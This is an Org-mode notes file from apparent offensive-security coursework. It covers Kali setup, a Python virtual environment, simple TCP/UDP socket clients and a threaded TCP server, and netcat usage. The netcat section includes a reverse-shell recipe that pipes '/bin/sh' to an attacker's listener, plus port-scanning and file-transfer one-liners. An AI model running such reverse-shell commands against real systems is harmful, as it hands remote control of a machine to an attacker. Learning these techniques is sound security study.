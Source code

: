 ** Installing kali
#+begin_src bash
sudo apt update
apt list --upgradable
sudo apt upgrade
sudo apt dist-upgrade
sudo apt autoremove
#+end_src
** Set up py3
*** init
Make sure python3 version > 3.7.5
#+begin_src bash
  sudo apt-get install python3-venv
  mkdir bhp
  cd bhp
  # create a new virtual-env named venv3
  python3 -m venv venv3
  source venv3/bin/activate
  #Now the  prompt is prefixed with (venv3)
  # should be in python3
  python
#+end_src
Later on, when you’re ready to exit the environment, use the command deactivate.
*** use pip
#+begin_src bash
  pip search hashcrack
  pip install lxml
#+end_src
Now test the newly installed package
#+begin_src python
from lxml import etree
#+end_src
** Network
*** TCP client
#+begin_src python
  import socket

  target_host = "www.google.com"
  target_port = 80

  # create a socket object
  client = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
  # AF_INET -> use standard IPv4
  # SOCK_STREAM -> this will be a TCP client

  # connect the client
  client.connect((target_host,target_port))

  # send some data
  client.send(b"GET / HTTP/1.1\r\nHost: google.com\r\n\r\n")

  # receive some data
  response = client.recv(4096)

  print(response.decode())
  client.close()

#+end_src
*** UDP client
#+begin_src python
  import socket

  target_host = "127.0.0.1"
  target_port = 9997

  # create a socket object
  client = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)

  # send some data
  client.sendto(b"AAABBBCCC",(target_host,target_port))

  # receive some data
  data, addr = client.recvfrom(4096)

  print(data.decode())
  client.close()
#+end_src
*** TCP server
#+begin_src python
import socket
import threading

IP = '0.0.0.0'
PORT = 9998

def main():
    server = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    server.bind((IP, PORT))
    server.listen(5)
    print(f'[*] Listening on {IP}:{PORT}')

    while True:
        client, address = server.accept()
        print(f'[*] Accepted connection from {address[0]}:{address[1]}')
        client_handler = threading.Thread(target=handle_client, args=(client,))
        client_handler.start()

def handle_client(client_socket):
    with client_socket as sock:
        request = sock.recv(1024)
        print(f'[*] Received: {request.decode("utf-8")}')
        sock.send(b'ACK')

if __name__ == '__main__':
    main()

    #+end_src
** Netcat
*** How to give the attacker a shell (reverse shell)
Step 1. On attacker's machine: start a server on some ports.
#+begin_src bash
nc -nlvp 5555
#+end_src
Step 2. On the target machine: give attacker the shell
#+begin_src bash
  /bin/sh | nc 127.0.0.1 5555
  # replace 127.0.0.1 , 5555 with the address and port of attacker
#+end_src
*** Chat
Terminal 1
#+begin_src bash
  nc -l -p 1234
#+end_src
Terminal 2
#+begin_src bash
  nc 127.0.0.1 1234
#+end_src
*** Transfer data
Terminal 1
#+begin_src bash
  nc -l -p 1234 >output.txt
#+end_src
Terminal 2
#+begin_src bash
  echo "aa bb cc" > input.txt
  nc 127.0.0.1 1234 <input.txt
#+end_src
*** Port Scanning
#+begin_src bash
  nc -z -v 127.0.0.1 1234         # scan 1 port
  nc -z -v 127.0.0.1 1234 1235    # scan multiple port
  nc -z -v 127.0.0.1 1233-1240    # scan a range of ports
#+end_src
*** Send HTTP request
#+begin_src bash
  printf "GET /nc.1 HTTPs/1.1\r\nHost: www.geeksforgeeks.org\r\n\r\n" | nc www.geeksforgeeks.org 80
#+end_src
* End

# Local Variables:
# org-what-lang-is-for: "bash"
# End:
